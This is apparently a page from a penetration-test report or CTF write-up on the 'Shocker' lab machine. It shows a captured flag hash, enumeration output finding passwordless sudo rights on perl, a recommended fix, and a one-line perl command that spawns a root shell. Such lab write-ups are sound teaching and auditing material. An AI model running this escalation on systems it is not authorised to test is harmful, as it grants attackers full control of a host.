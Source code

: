 **Local.txt Contents**

```txt
2ec24e11320026d1e70ff3e16695b233
```

\newpage

#### Privilege Escalation

**Vulnerability Exploited:** Weak file permissions.

**Vulnerability Explanation:**

The compromised user *shelly* is able to execute the file */usr/bin/perl* with sudo permissions AND without requiring a password.

Output from *linenum.sh*:

```bash
[+] We can sudo without supplying a password!
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Reference: *https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh*

**Vulnerability Fix:**

Change permissions of */usr/bin/perl* to atleast require a password to be entered for any user to execute the file with sudo privileges.

**Severity:** Critical

**Exploit Code:**

```bash
sudo perl -e 'exec "/bin/bash";'
```

Result:

![x](screenshots-storage/get-root.png)

**Proof Screenshot Here:**

